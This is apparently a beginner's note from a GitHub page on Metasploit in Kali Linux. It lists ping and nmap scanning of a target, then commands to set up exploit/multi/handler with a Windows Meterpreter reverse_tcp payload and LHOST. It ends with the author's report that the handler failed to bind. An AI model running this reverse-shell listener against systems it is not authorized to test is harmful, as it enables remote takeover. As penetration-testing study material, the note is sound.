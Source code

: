 # Metaspolit
Handling in Kali Linux 
First
*Ping   [Ip Addr]*
and 
scan with nmap tool--->code 
*nmap -v -Pn [ip addr]*
*locate metasploit*
open msfconsole---> code
*use exploit/multi/handler*
*set payload windows/x64/meterpreter/reverse_tcp*
*show options*
Therefore the LHOST is missing from show options then the code will be -->
*set LHOST [Ip Addr]*
*show options*
When we set LHOST ip addr in payload it appears on payload when type code of show options in msfconsole and then we run the payload which is written in msfconsole
----code----
*run*
Therefore it is running but it says 
"Handler failed to bind to [ip addr] 
"Started reverse TCP handler on ....."
it running but failed to show it cannot be showen what has run it only runs infinity 
